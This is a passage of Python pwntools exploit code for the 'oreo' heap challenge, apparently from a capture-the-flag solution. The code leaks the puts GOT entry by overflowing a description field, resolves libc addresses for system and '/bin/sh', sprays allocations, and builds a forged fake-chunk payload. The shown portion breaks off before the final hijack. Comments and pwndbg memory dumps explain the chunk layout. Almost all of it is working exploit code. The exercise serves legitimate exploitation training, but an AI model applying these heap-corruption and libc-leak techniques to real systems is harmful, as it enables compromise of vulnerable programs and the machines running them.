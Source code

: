 ```python
  sl(4)
  # ru("Enter any notice you'd like to submit with your order: ")
  sl(messages)

def current():
  # ru("Action:")
  sl(5)
  # ru("======= Status =======")

def dbg():
  gdb.attach(p)
  pause()

p = process('./oreo')
elf = ELF('./oreo',checksec=False)
puts_got = elf.got['puts']


add('A'*27+p32(puts_got),'B')
# dbg()
show()
ru('B')
ru('Description: ')
puts_addr = uu32(r(4).ljust(4,'\x00'))
leak("puts_addr",puts_addr)

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
leak('system_addr',system_addr)
binsh = libc_base + libc.dump('str_bin_sh')
leak('binsh',binsh)

for i in range(0x3f):
  add('A'*27 + p32(0),'B')
  print i

# dbg()
payload = 'A'*27 + p32(0x0804A2A8)
add(payload,'B')
# dbg()
# ...
# 0x96a0410           0xa                 0x40                 Used                None              None
# pwndbg> x/16w 0x96a0410
# 0x96a0410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x96a0420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x96a0430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x96a0440:  0x41414141  0x41414141  0x41414141  0x0804a2a8 <--- next,and it point to fake_chunk


# before free, we need to bypass some check
# fake chunk's size is 0x40
# 0x20 *'a' for padding the last fake chunk
# 0x40 for fake chunk's next chunk's prev_size
# 0x100 for fake chunk's next chunk's size
# set fake iofle' next to be NULL
payload = '\x00'*0x20 + p32(0x41) + p32(0x100)
payload = payload.ljust(0x34,'a')
payload += p32(0) # make next point to NULL
payload = payload.ljust(0x100,'b')  # padding to 0x100 which we wire to size
message(payload)
# dbg()
```